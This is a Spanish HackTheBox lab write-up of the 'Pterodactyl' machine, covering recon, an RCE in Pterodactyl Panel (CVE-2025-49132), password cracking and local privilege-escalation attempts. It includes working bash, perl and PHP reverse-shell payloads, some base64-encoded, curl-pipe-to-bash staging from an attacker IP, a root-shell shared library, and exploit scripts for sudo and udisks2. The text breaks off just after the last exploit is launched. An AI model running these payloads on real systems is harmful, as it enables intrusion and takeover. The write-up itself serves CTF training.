



+++
title = "HackTheBox - Pterodactyl"
draft = false
description = "Resolución de la máquina Pterodactyl"
tags = ["HTB", "Linux", "Medium", "Pterodactyl", "CVE", "DB", "Trivy", "UDisks2", "Subdominio"]
summary = "OS: Linux | Dificultad: Medium | Conceptos: Pterodactyl Server Manager, CVE Público, Redis, MySQL, Trivy, UDisks2"
categories = ["Writeups"]
showToc = true
showRelated = true
date = "2026-02-28T00:00:00"
+++

* Dificultad: `medium`
* Tiempo aprox. `~6h`
* **Datos Iniciales**: `10.129.4.98`

## Nmap Scan

Empezamos haciendo un escaneo de todos los puertos en TCP:

```bash
$ nmap -sT -Pn -n -p- --open 10.129.4.98 -v                
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-24 17:47 -0500
Initiating Connect Scan at 17:47
Scanning 10.129.4.98 [65535 ports]
Discovered open port 22/tcp on 10.129.4.98
Discovered open port 80/tcp on 10.129.4.98
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
...
```

Como al parecer tarda mucho, limitamos la cantidad de puertos a la predeterminada de nmap (Top 1000 puertos) y escaneamos servicios después:

```bash
$ nmap -sT -Pn -n --open 10.129.4.98
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

$ nmap -sT -Pn -n -p22,80 -sVC --open 10.129.4.98
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
|_  256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
80/tcp open  http    nginx 1.21.5
|_http-server-header: nginx/1.21.5
|_http-title: Did not follow redirect to http://pterodactyl.htb/
```

Añadimos `pterodactyl.htb` a `/etc/hosts`.

Vemos los siguientes puertos abiertos:

* **22/TCP (SSH)**: Versión vulnerable a algunos ataques MitM y a [RegreSSHion](https://www.incibe.es/incibe-cert/alerta-temprana/avisos/regresshion-vulnerabilidad-rce-en-servidor-openssh), difícilmente explotable.
* **80/TCP (HTTP)**: Vulnerable a DoS y a otros ataques no relevantes.&#x20;

No hay gran cosa, tendremos que ir a por el puerto 80.

## Puerto 80, HTTP

Antes de entrar a la página principal, dado que nmap nos ha indicado que se utilizan vhosts (al indicar el `did not follow redirect to http://pterodactyl.htb`), es posible que haya más en la máquina, así que primero buscamos vhosts:

```bash
$ gobuster vhost --url http://pterodactyl.htb --wordlist /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt --append-domain
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://pterodactyl.htb
[+] Method:                    GET
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt
[+] Append Domain:             true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
panel.pterodactyl.htb Status: 200 [Size: 1897]
```

Y encontramos `panel.pterodactyl.htb`, lo añadimos a `/etc/hosts`.

### Dominio principal `pterodactyl.htb`

Al entrar, encontramos una invitación para unirnos a un servidor de Minecraft `MonitorLand`.



Aquí vemos dos cosas:

* Un subdominio `play.pterodactyl.htb` (que redirige exactamente a la misma página)
* Unos changelogs en `http://pterodactyl.htb/changelog.txt`:

```changelog.txt
MonitorLand - CHANGELOG.txt
======================================

Version 1.20.X

[Added] Main Website Deployment
--------------------------------
- Deployed the primary landing site for MonitorLand.
- Implemented homepage, and link for Minecraft server.
- Integrated site styling and dark-mode as primary.

[Linked] Subdomain Configuration
--------------------------------
- Added DNS and reverse proxy routing for play.pterodactyl.htb.
- Configured NGINX virtual host for subdomain forwarding.

[Installed] Pterodactyl Panel v1.11.10
--------------------------------------
- Installed Pterodactyl Panel.
- Configured environment:
  - PHP with required extensions.
  - MariaDB 11.8.3 backend.

[Enhanced] PHP Capabilities
-------------------------------------
- Enabled PHP-FPM for smoother website handling on all domains.
- Enabled PHP-PEAR for PHP package management.
- Added temporary PHP debugging via phpinfo()
```

De aquí ya podemos apuntar que se está usando `Pterodactyl Panel v1.11.10`, aunque todavía no sabemos exactamente qué es. Además se usa `MariaDB 11.8.3` como backend.

### Subdominio `panel.pterodactyl.htb`

Al entrar, nos encontramos un panel de login&#x20;



No tenemos credenciales, pero, de todas formas, primero convendría saber qué es Pterodactyl para poder ver cómo enfrentarnos a él. Al mirar en Internet encontramos [varias páginas](https://coolify.io/docs/services/pterodactyl) que nos indican de qué se trata:

> _Pterodactyl is a free, open-source game server management panel built with PHP, React, and Go. Designed with security in mind, Pterodactyl runs all game servers in isolated Docker containers while exposing a beautiful and intuitive UI to end users._

> _Pterodactyl consists of two core components that work together: the Panel (web interface) and Wings (server daemon). The Panel provides the management interface, while Wings handles the actual game server operations on each node._

### CVE-2025-49132, Revshell

Al mirar en Internet, vemos que existe una vulnerabilidad crítica (`10.0 CRITICAL` en Github) de Unauthenticated RCE: [`CVE-2025-49132`](https://nvd.nist.gov/vuln/detail/cve-2025-49132). Afecta a las versiones anteriores a la `v1.11.11`, entre las que se encuentra la que hemos visto que corre en este servidor: `v1.11.10`.

Usaremos un [exploit público](https://github.com/rippxsec/CVE-2025-49132):

```bash
$ python3 poc.py -H panel.pterodactyl.htb --scan 
╔══════════════════════════════════════╗
║   CVE-2025-49132 - Pterodactyl RCE   ║
╚══════════════════════════════════════╝
[*] Scanning: http://panel.pterodactyl.htb/locales/locale.json
-------------------------------------------------------
[+] VULNERABLE - Database credentials leaked
    Host:     127.0.0.1
    Port:     3306
    Database: panel
    Username: pterodactyl
    Password: PteraPanel
    Connection: pterodactyl:PteraPanel@127.0.0.1:3306/panel
[+] VULNERABLE - App configuration leaked
    App Key: base64{{UaThTPQnUjrrK61o}}+Luk7P9o4hM+gl4UiMJqcbTSThY=
    [!] SECURITY WARNING: APP_KEY exposed!
    App Name: Pterodactyl
    URL:      http://panel.pterodactyl.htb
-------------------------------------------------------
[+] Target is VULNERABLE to CVE-2025-49132
```

Apuntamos las credenciales de MariaDB `pterodactyl:PteraPanel`. Ahora creamos un payload para el revshell:

```bash
$ cat payload    
bash -c 'bash -i >& /dev/tcp/10.10.15.95/4444 0>&1'
$ cat payload | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS45NS80NDQ0IDA+JjEnCg==

## Este será el payload:
echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS45NS80NDQ0IDA+JjEnCg== | base64 -d | bash 2>/dev/null
```

Lo ejecutamos:

```bash
$ python3 poc.py -H panel.pterodactyl.htb -c 'echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS45NS80NDQ0IDA+JjEnCg== | base64 -d | bash 2>/dev/null'
[CVE-2025-49132] Pterodactyl Panel RCE via PHP PEAR
- [+] Command Output:
wwwrun
```

Pero en el listener no recibimos nada, solo vemos el output del comando ejecutado inmediatamente antes. Se está usando bash para el reverse shell, que casi seguro existe en el sistema, pero no está de más comprobar:

```bash
$ python3 poc.py -H panel.pterodactyl.htb -c 'whoami && echo $SHELL && echo $PATH'
\ [+] Command Output:
wwwrun
/usr/sbin/nologin
/usr/local/bin:/usr/bin:/bin:.

$ python3 poc.py -H panel.pterodactyl.htb -c 'ls -al /bin/bash'
| [+] Command Output:
lrwxrwxrwx 1 root root 13 Aug 22  2024 /bin/bash -> /usr/bin/bash
# Y en /usr/bin/bash:
-rwxr-xr-x 1 root root 1012656 Aug 22  2024 /usr/bin/bash
```

Pero si probamos con cualquiera de las rutas absolutas, seguimos sin recibir nada. Probamos a ver si al menos podemos usar bash:

```bash
$ python3 poc.py -H panel.pterodactyl.htb -c 'echo ls | bash' 
\ [+] Command Output:
assets
favicons
index.php
#... Funciona
```

Comprobamos, al mandar `command -v perl`, que también existe perl , así que probamos a usar un [revshell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) de perl:

```bash
$ python3 poc.py -H panel.pterodactyl.htb -c 'echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTAuMTAuMTUuOTUiOyRwPTQ0NDQ7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307Jwo= | base64 -d | bash'
[CVE-2025-49132] Pterodactyl Panel RCE via PHP PEAR
| [+] Command Output:
/usr/bin/perl
```

Y sigue sin funcionar.

#### Debugging

> [!warning] Aviso: Mucho tiempo y texto que no llevan a nada
> Si valoras tu tiempo, aviso de que todo lo que hago a partir de aquí hasta justo antes de **`Plan B, Webshell`** lleva hasta un reverse shell que no funciona. Si simplemente quieres saber cómo llegar a rootear la máquina, puedes saltar esta parte. Si te interesa cómo intento debuggearlo, eres libre de quedarte._

Tras probar con puertos comunes (80,443) para la reverse shell, sigue sin ir. Comprobamos si hay conectividad alguna o si hay algún firewall bloqueando conexiones:

```bash
$ python3 poc.py -H panel.pterodactyl.htb -c 'curl 10.10.15.95:443'
- [+] Command Output:
<!DOCTYPE HTML>
<html lang="en">
...[SNIP]...
```

Y en nuestro server http:

```bash
$ python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
10.129.4.98 - - [24/Feb/2026 19:18:13] "GET / HTTP/1.1" 200 -
```

Tenemos conexión saliente del servidor, pero por algún motivo bash no puede iniciar la conexión. Tras buscar un rato, veo que puede ser que bash esté compilado en el container de Pterodactyl sin soporte para `/dev/tcp` (una práctica común) con el fin de reducir superficie de ataque. Como sabemos que PHP está instalado y funciona (el propio CVE se basa en PHP), iniciaremos la conexión con PHP y desde ahí iniciaremos bash (Similar a un staged payload).

1. Guardamos un archivo `revshell.sh` con el reverse shell de PHP:

```sh
#!/bin/bash
php -r '$sock=fsockopen("10.10.15.95", 443); exec("/bin/bash -i <&3 >&3 2>&3");'
```

2. Abrimos el puerto 80 con un server HTTP de python, sirviendo `revshell.sh`; y el puerto 443 preparado para la revshell.
3. Hacemos que la víctima haga curl a nuestro payload y lo ejecute en memoria:

```bash
$ python3 poc.py -H panel.pterodactyl.htb -c 'curl -s http://10.10.15.95:80/revshell.sh | bash &'
\ [!] Command not found (or no output)
```

Pero en ambos puertos en escucha vemos lo mismo: Llegan 12 solicitudes http, y al handler le llegan shells inválidas:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.4.98 - - [24/Feb/2026 19:31:07] "GET /revshell.sh HTTP/1.1" 200 -
10.129.4.98 - - [24/Feb/2026 19:31:07] "GET /revshell.sh HTTP/1.1" 200 -
# 10 más
```

```bash
$ sudo penelope -i 10.10.15.95 -p 443
[+] Listening for reverse shells on 10.10.15.95:443
[-] Invalid shell from 10.129.4.98
[-] Invalid shell from 10.129.4.98
# 10 más
```

El problema posiblemente sea que, aunque la primera revshell que llegue sea buena, el resto que llega pisa la conexión anterior y hace que al final todas las conexiones resulten inválidas. Además, al morir el proceso padre php, el resto de shells mueren. Estos dos problemas los podemos solucionar de forma sencilla.

#### Revshell definitivo (que no va)

1. Añadimos una comprobación para que solo se inicie la primera conexión
2. Añadimos `nohup` para que cuando muera el proceso padre no mueran los hijos y filtramos errores y output.

```revshell.sh
#!/bin/bash

# Si el archivo ya existe (lo ha creado una conexión anterior) se sale sin hacer nada.
if [ -f /tmp/RevshellLock ]; then
    exit 0
fi
touch /tmp/RevshellLock

nohup php -r '$sock=fsockopen("10.10.15.95", 443); exec("/bin/bash -i <&3 >&3 2>&3");' > /dev/null 2>&1 &
```

Ahora hacemos lo mismo que antes:

```bash
$ python3 poc.py -H panel.pterodactyl.htb -c 'curl -s http://10.10.15.95:80/revshell.sh | bash &'
\ [!] Command not found (or no output)
```

Pero si miramos el puerto en escucha:

```bash
[+] Got reverse shell from pterodactyl~10.129.4.98-Linux-x86_64
[+] Attempting to deploy Python Agent...
[+] Shell upgraded successfully using /usr/bin/python3!

wwwrun@pterodactyl:/var/www/pterodactyl/public>
```

Aunque parece que hemos avanzado bastante, tenemos un problema. Si intentamos escribir cualquier cosa, el shell no responde, está congelado. Tenemos un revshell pero ni siquiera funciona.

### Plan B, Webshell

Por algún motivo, el revshell que hemos conseguido antes no iba y, antes de ponerme a debuggear otra vez, busco una alternativa.

Primero se me ocurre pasar un binario de `chisel` a la máquina (recordemos que `curl` sí funcionaba), hacer port-forwarding de la base de datos (para la que teníamos credenciales `pterodactyl:PteraPanel`), y rezar por que hubiese un hash de contraseña de un usuario del sistema, pero luego pienso en otra alternativa más fácil antes.

La revshell podía fallar por muchos motivos, y la forma más sencilla de eliminar esos motivos es usar una [webshell](https://github.com/drag0s/php-webshell) PHP y ejecutar la revshell desde ahí:

```bash
shell> curl http://10.10.15.95:8000/webshell.php -o ./webshell.php 
[!] Command not found (or no output)
```

Aunque ponga `Command not found`, en nuestro servidor python hemos recibido las solicitudes. Ahora accedemos al webshell y ejecutamos nuestro reverse shell:



Y por fin tenemos un shell estable.

> Realmente podríamos haber hecho bastante enumeración desde el webshell o incluso desde el exploit (que nos dan un nivel de interactividad similar), pero es bastante más comodo tener un shell completo.

## Privesc (desde `wwwrun`)

Posiblemente el vector de escalada esté en unas credenciales guardadas en MariaDB para el panel de login que se reutilicen para un user del sistema, así que probamos:

```bash
$ mysql -u pterodactyl -p"PteraPanel"
ERROR 1045 (28000): Access denied for user 'pterodactyl'@'localhost' (using password: YES)

# Probando a ver si con solo la DB "panel" funciona.
$ mysql -u pterodactyl -p"PteraPanel" --database=panel
ERROR 1045 (28000): Access denied for user 'pterodactyl'@'localhost' (using password: YES)
```

Al parecer las credenciales no son esas. Antes de enumerar por otro lado, busco dónde están guardadas las credenciales de la DB en los archivos de Pterodactyl (por si han cambiado) y casualmente me encuentro con [este post que me salva mucho tiempo](https://github.com/pterodactyl/documentation/issues/123).

De nuevo, probamos:

```bash
mysql -u pterodactyl -p"PteraPanel" --host=127.0.0.1
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 445
Server version: 11.8.3-MariaDB MariaDB package

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Bingo.

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| panel              |
| test               |
+--------------------+
3 rows in set (0.003 sec)
```

* `information_schema` es la default de MySQL, tiene metadatos.
* `test` está vacía.
* `panel` parece (y es) la importante.

```bash
MariaDB [panel]> show tables;
+-----------------------+
| Tables_in_panel       |
+-----------------------+
| ...[SNIP]...          |
| settings              |
| subusers              |
| tasks                 |
| tasks_log             |
| user_ssh_keys         |
| users                 |
+-----------------------+
```

Hay `users` y `user_ssh_keys`, parece que tenemos lo que buscábamos. Echamos un vistazo y conseguimos la siguiente info:

```bash
EMAIL                           PASSWORD
headmonitor@pterodactyl.htb     $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2
phileasfogg3@pterodactyl.htb    $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi
# user_ssh_keys estaba vacío, toca fuerza bruta.
```

Los metemos a `hashcat`:

```bash
$ hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
...[SNIP]...

$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi:!QAZ2wsx
```

Y sacamos la contraseña de `phileasfogg3`: `!QAZ2wsx`

## Privesc (desde `phileasfogg3`)

Vamos a SSH:

```bash
$ ssh phileasfogg3@pterodactyl.htb
The authenticity of host 'pterodactyl.htb (10.129.4.98)' can't be established.
ED25519 key fingerprint is: SHA256:FOOqnHbybkpXftYgyrorbBxkgW0L4yMSLYxG8F87SDE
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'pterodactyl.htb' (ED25519) to the list of known hosts.

(phileasfogg3@pterodactyl.htb) Password: 
Have a lot of fun...
phileasfogg3@pterodactyl:~> 
```

Ejecutamos linPEAS:

* PATH: `/home/phileasfogg3/bin:/usr/local/bin:/usr/bin:/bin`.
  * El primer directorio en el que se buscan los programas es el `~bin` de phileasfogg3.
* Puertos en local abiertos:

```bash
udp     UNCONN   127.0.0.1:323      # chronyd, equivalente moderno a NTP
tcp     LISTEN   127.0.0.1:631      # CUPS 2.2.7 (no vulnerable a evilCUPS)
tcp     LISTEN   127.0.0.1:9000     # PHP-FPM: Servicio de PHP que recibe las peticiones del servidor web para procesar el código de Pterodactyl.
tcp     LISTEN   127.0.0.1:3306     # MariaDB (Ya usada)
tcp     LISTEN   127.0.0.1:6379     # REDIS
tcp     LISTEN   127.0.0.1:25       # SMTP (Raramente explotable, solo podemos enumerar users)
```

### Redis (rabbit hole)

Entramos primero a redis:

```bash
~> redis-cli -h localhost
127.0.0.1:6379> info
# Server
redis_version:8.2.1
...[SNIP]...


127.0.0.1:6379> KEYS *
...[SNIP]...
#Se dumpean todas las entradas de la DB, nada relevante.
```

Vemos que la versión de Redis es la 8.2.1, según Internet, potencialmente vulnerable a [`CVE-2025-49844` "Redishell"](https://nvd.nist.gov/vuln/detail/CVE-2025-49844)

> _Redis is an open source, in-memory database that persists on disk. Versions 8.2.1 and below allow an authenticated user to use a specially crafted Lua script to manipulate the garbage collector, trigger a use-after-free and potentially lead to remote code execution_

**Problema**: Redis se ejecuta con la cuenta de servicio `redis`, así que no vamos a conseguir elevar privilegios. De hecho, conseguir ser `redis` posiblemente nos limite más porque sus capacidades estarán intencionalmente restringidas.

### Sudo (rabbit hole)

Tras echar un vistazo a linPEAS otra vez sin ver nada, miramos la versión de sudo:

```bash
~> sudo --version
Sudo version 1.9.15p5
```

Y al buscar en google:

> _La versión sudo 1.9.15p5 (y versiones anteriores hasta la 1.9.14) está afectada por dos vulnerabilidades críticas descubiertas en 2025 que permiten la escalada de privilegios a root._

La más relevante es [`CVE-2025-32463`](https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2025-32463), cuyo [exploit](https://github.com/kh4sh3i/CVE-2025-32463) usaremos. Como no tenemos `gcc` en la máquina (y el exploit lo usa), compilamos la librería de forma local con las flags que usa el exploit:

1. Creamos `woot1337.c`:

```woot1337.c
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
```

2. Lo compilamos igual que en el exploit y lo servimos

```bash
$ gcc -shared -fPIC -Wl,-init,woot -o woot1337.so.2 woot1337.c

$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

3. Editamos el `.sh`:

```exploit.sh
#!/bin/bash
# CVE-2025-32463

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc

echo "-> Descargando librería"
wget http://10.10.15.95:8000/woot1337.so.2 -O libnss_/woot1337.so.2

chmod +x libnss_/woot1337.so.2

echo "-> Ejecutando exploit"
sudo -R woot woot

rm -rf ${STAGE?}
```

Pero lo ejecutamos:

```bash
/tmp/exploit.sh 
-> Descargando librería
--2026-02-26 13:41:10--  http://10.10.15.95:8000/woot1337.so.2
Connecting to 10.10.15.95:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15536 (15K) [application/octet-stream]
Saving to: ‘libnss_/woot1337.so.2’

libnss_/woot1337.so.2                  100%[============================================================================>]  15.17K  --.-KB/s    in 0.04s   

2026-02-26 13:41:10 (387 KB/s) - ‘libnss_/woot1337.so.2’ saved [15536/15536]

-> Ejecutando exploit
[sudo] password for root:
```

Y no funciona, tenemos que buscar otra vía.

### Analizando programas instalados con Trivy

Tras haber buscado binarios con SUID, cronjobs, permisos sudo, servicios en ejecución, archivos con credenciales que podamos leer, haber ejecutado linPEAS y más, seguimos sin encontrar nada que nos permita elevar privilegios.

No quedan muchas alternativas, pero podemos mirar qué paquetes hay instalados por si hay alguno vulnerable:

```bash
~> rpm -qa
plymouth-lang-22.02.122+94.4bd41a3-150600.3.6.1.noarch
libbpf1-1.2.2-150600.3.6.2.x86_64
libyui16-4.5.3-150600.6.2.1.x86_64
hicolor-icon-theme-0.17-150600.19.2.noarch
... # En total 886 paquetes
```

Con casi 900 paquetes instalados es inviable analizarlos manualmente, pero sí podemos usar un escáner automático como `trivy` para hacer el trabajo:

```bash
/tmp/triv> ./trivy rootfs /
2026-02-28T20:31:48+02:00	INFO	[vulndb] Need to update DB
2026-02-28T20:31:48+02:00	INFO	[vulndb] Downloading vulnerability DB...
2026-02-28T20:31:48+02:00	INFO	[vulndb] Downloading artifact...	repo="mirror.gcr.io/aquasec/trivy-db:2"
2026-02-28T20:31:52+02:00	FATAL	Fatal error	run error: init error: DB error: failed to download vulnerability DB: OCI artifact error: failed to download vulnerability DB: failed to download artifact from mirror.gcr.io/aquasec/trivy-db:2: OCI repository error: 1 error occurred:
	* Get "https://mirror.gcr.io/v2/": dial tcp: lookup mirror.gcr.io on [::1]:53: dial udp [::1]:53: connect: cannot assign requested address
```

Trivy necesita descargar su DB, pero la máquina no tiene acceso a Internet, así que la descargamos localmente en nuestra máquina y la comprimimos para subirla:

```bash
$ trivy image --download-db-only
2026-02-28T13:36:43-05:00	INFO	[vulndb] Artifact successfully downloaded	repo="mirror.gcr.io/aquasec/trivy-db:2"

$ tar -czvf trivy-db.tar.gz -C ~/.cache/trivy db
db/
db/trivy.db
db/metadata.json
```

Y ya con el binario de `trivy` en la víctima, descargamos la db también:

```bash
/tmp/triv> ls
contrib  LICENSE  README.md  trivy  trivy.tar

/tmp/triv> wget http://10.10.15.95:8000/trivy-db.tar.gz
Connecting to 10.10.15.95:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 90801132 (87M) [application/gzip]
Saving to: ‘trivy-db.tar.gz’

trivy-db.tar.gz     100%[===============================================================>] 86.59M 6.70MB/s in 17s

/tmp/triv> tar -xzvf trivy-db.tar.gz 
db/
db/trivy.db
db/metadata.json
```

Ahora ejecutamos y buscamos vulnerabilidades en el fs raíz, (`rootfs`), en modo offline y usando nuestra db descargada (`--offline-scan --cache-dir /tmp/triv/`), que sean CRITICAL o HIGH (`--severity CRITICAL,HIGH`) y de paquetes del SO (`--vuln-type os`). Luego filtramos por privesc (`grep "privilege esc"`), ordenamos y quitamos repetidos (`sort -u`):

```bash
/tmp/triv> ./trivy rootfs --offline-scan --cache-dir /tmp/triv/ --scanners vuln --severity CRITICAL,HIGH --format json --vuln-type os / 2>/dev/null | grep "privilege esc" | sort -u
          "Description": "This update for libblockdev fixes the following issues:\n\n- CVE-2025-6019: Suppress privilege escalation during xfs fs resize (bsc#1243285).\n",
          "Description": "This update for open-vm-tools fixes the following issues:\n- CVE-2025-41244: fixed a local privilege escalation vulnerability (bnc#1250373).\n",
```

Y tenemos 2 vulnerabilidades, una de `open-vm-tools` y otra de `libblockdev` (Udisks2). Posiblemente la de `open-vm-tools` tenga que ver con que la propia máquina es una VM (como el resto de máquinas de HTB), así que lo que queda es el `CVE-2025-6019`.

### CVE-2025-6019

> _Se trata de un fallo de seguridad en el modo en que libblockdev interactúa con udisks2 al redimensionar sistemas de archivos, lo que permite ejecutar código con privilegios de root a través de un sistema de archivos especialmente preparado. El atacante crea una imagen XFS que contiene un binario SUID con permisos de root y engaña a udisks para montarla sin las protecciones habituales (al redimensionarla), ejecutando así el shell SUID._

Encontramos [este exploit](https://github.com/MichaelVenturella/CVE-2025-6018-6019-PoC) público, lo descargamos y subimos a la máquina. Al ejecutarlo:

```bash
phileasfogg3@pterodactyl:/tmp> ./exploit.sh 
[+] Session is Active. Polkit bypass enabled.
[*] Starting Background Trigger (Wait 2s)...
[*] Starting Foreground Catcher...
[*] HOLD TIGHT. ROOT SHELL INCOMING.
[*] Sniper started. Waiting for ANY loop mount...
[*] (BG) Setting up loop device...
==== AUTHENTICATING FOR org.freedesktop.udisks2.loop-setup ====
Authentication is required to set up a loop device
Authenticating as: root
Password: #CTRL+C
(BG) Loop setup failed:
```

No ha funcionado, pero, por suerte, en el propio PoC se contemplaba esta posibilidad y se indica que puede solucionarse de forma fácil:

```bash
phileasfogg3@pterodactyl:/tmp> echo "XDG_SEAT=seat0" > ~/.pam_environment
phileasfogg3@pterodactyl:/tmp> echo "XDG_VTNR=1" >> ~/.pam_environment
phileasfogg3@pterodactyl:/tmp> exit
logout
Connection to pterodactyl.htb closed.
```

Luego nos reconectamos

```bash
$ ssh phileasfogg3@pterodactyl.htb
(phileasfogg3@pterodactyl.htb) Password: 
Have a lot of fun...

phileasfogg3@pterodactyl:~> cd /tmp
phileasfogg3@pterodactyl:/tmp> loginctl show-session $XDG_SESSION_ID | grep Active
Active=yes
phileasfogg3@pterodactyl:/tmp> ./exploit.sh 
[+] Session is Active. Polkit bypass enabled.
